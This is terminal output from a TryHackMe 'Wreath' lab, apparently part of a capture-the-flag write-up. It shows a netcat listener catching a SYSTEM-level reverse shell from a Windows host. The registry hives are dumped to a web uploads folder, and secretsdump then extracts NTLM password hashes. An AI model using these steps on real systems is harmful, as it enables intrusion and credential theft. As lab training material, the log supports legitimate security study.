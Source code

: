 ```bash
kali㉿kali-[~/thm/wreath]$ nc -nlvp 1338                                         1 ⨯
listening on [any] 1338 ...
connect to [10.50.183.4] from (UNKNOWN) [10.200.186.100] 51399
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>reg.exe save HKLM\SAM reg.exe save HKLM\SYSTEM C:\xampp\htdocs\resources\uploads\sam

reg.exe save HKLM\SAM C:\xampp\htdocs\resources\uploads\sam
The operation completed successfully.

C:\Windows\system32>
C:\Windows\system32>reg.exe save HKLM\SYSTEM C:\xampp\htdocs\resources\uploads\system

reg.exe save HKLM\SYSTEM C:\xampp\htdocs\resources\uploads\system
The operation completed successfully.
```

```bash
kali㉿kali-[~/thm/wreath]$ python3 /opt/impacket/examples/secretsdump.py -sam sam -system system LOCAL
Impacket v0.9.24.dev1+20210928.152630.ff7c521a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a05c3c807ceeb48c47252568da284cd2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:06e57bdd6824566d79f127fa0de844e2:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:02d90eda8f6b6b06c32d5f207831101f:::
[*] Cleaning up...
```
